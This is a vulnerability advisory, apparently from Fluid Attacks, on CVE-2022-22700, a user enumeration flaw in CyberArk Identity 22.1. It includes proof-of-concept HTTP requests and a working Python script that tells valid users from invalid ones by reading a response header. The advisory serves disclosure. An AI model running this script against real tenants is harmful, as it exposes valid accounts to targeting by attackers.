```yaml
---
slug: advisories/porter/
title: CyberArk Identity 22.1 - User Enumeration
authors: Andres Roldan
writer: aroldan
codename: porter
product: CyberArk Identity
date: 2022-02-15 12:00 COT
cveid: CVE-2022-22700
severity: 5.3
description: CyberArk Identity 22.1 User Enumeration
keywords: Fluid Attacks, Security, Vulnerabilities, CyberArk, Identity
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                     |
| --------------------- | --------------------------------------------------- |
| **Name**              | CyberArk Identity 22.1 User Enumeration             |
| **Code name**         | [Porter](https://en.wikipedia.org/wiki/Cole_Porter) |
| **Product**           | CyberArk Identity                                   |
| **Affected versions** | 22.1 and below                                      |
| **Fixed versions**    | 22.2                                                |
| **State**             | Public                                              |

## Vulnerability

|                       |                                                                                                 |
| --------------------- | ----------------------------------------------------------------------------------------------- |
| **Kind**              | User Enumeration                                                                                |
| **Rule**              | [225. Proper Authentication Responses](https://docs.fluidattacks.com/criteria/requirements/225) |
| **Remote**            | Yes                                                                                             |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N                                                    |
| **CVSSv3 Base Score** | 5.3                                                                                             |
| **Exploit available** | Yes                                                                                             |
| **CVE ID(s)**         | [CVE-2022-22700](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22700)                 |

## Description

CyberArk Identity versions up to and including 22.1 in the
`StartAuthentication` resource, exposes the response header `X-CFY-TX-TM`.
In certain configurations, that response header contains different, predictable
value ranges which can be used to determine wether a user exists in the tenant.

## Proof of Concept

- A request is sent with a known valid user

Request:

```json
POST /Security/StartAuthentication HTTP/1.1
Host: customer.my.idaptive.app
Content-Length: 143
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Content-Type: application/json

{"TenantId":"","User":"admin@customer.com","Version":"1.0","AssociatedEntityType":"Portal","AssociatedEntityName":"Portal","ZsoSessionId":""}
```

Response:

```json
HTTP/1.1 200 OK
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Content-Type: application/json; charset=utf-8
X-CFY-TX-TM: 109
...
```

In the cases when the user exists, the value of `X-CFY-TX-TM`
is always less than `500`.

- A request is sent with a non existent user

Request:

```json
POST /Security/StartAuthentication HTTP/1.1
Host: customer.my.idaptive.app
Content-Length: 147
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Content-Type: application/json

{"TenantId":"","User":"notexists@customer.com","Version":"1.0","AssociatedEntityType":"Portal","AssociatedEntityName":"Portal","ZsoSessionId":""}
```

Response:

```json
HTTP/1.1 200 OK
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Content-Type: application/json; charset=utf-8
X-CFY-TX-TM: 1492
...
```

In the cases when the user does not exist, the value of `X-CFY-TX-TM`
is always above than `1000`.

## Exploit

The following code was used to enumerate valid users:

```python
#!/usr/bin/env python
#
# Author: aroldan@fluidattacks.com

import json
import requests
import sys

URL = 'https://<customer>.my.idaptive.app/Security/StartAuthentication'
RAW_DATA =  '{"TenantId":"","User":"test@customer.com","Version":"1.0","AssociatedEntityType":"Portal","AssociatedEntityName":"Portal","ZsoSessionId":""}'
JSON_DATA = json.loads(RAW_DATA)

with open(sys.argv[1], 'r') as fd:
    USERS = [x.rstrip() for x in fd.readlines()]

for USER in USERS:
    VALUE = 10000
    PAYLOAD = JSON_DATA
    PAYLOAD['User'] = USER
    RESP = requests.post(URL, json=PAYLOAD)
    if 'X-CFY-TX-TM' in RESP.headers:
        VALUE = int(RESP.headers['X-CFY-TX-TM'])
    if VALUE < 1000:
        print(VALUE)
        print(f'[+] User {USER} exists.')
    else:
        print(f'[-] User {USER} not exists.')
```

## Credits

The vulnerability was discovered by [Andrés
Roldán](https://www.linkedin.com/in/andres-roldan/) from the Offensive
Team of  `Fluid Attacks`.

## References

**Vendor page** <https://www.cyberark.com/resources/cyberark-identity/>

**Changelog** <https://docs.cyberark.com/Product-Doc/OnlineHelp/Idaptive/Latest/en/Content/ReleaseNotes/ReleaseNotes-Latest.htm>

## Timeline

<time-lapse
  discovered="2021-09-28"
  contacted="2022-02-05"
  replied="2022-02-16"
  confirmed=""
  patched="2022-02-28"
  disclosure="">
</time-lapse>
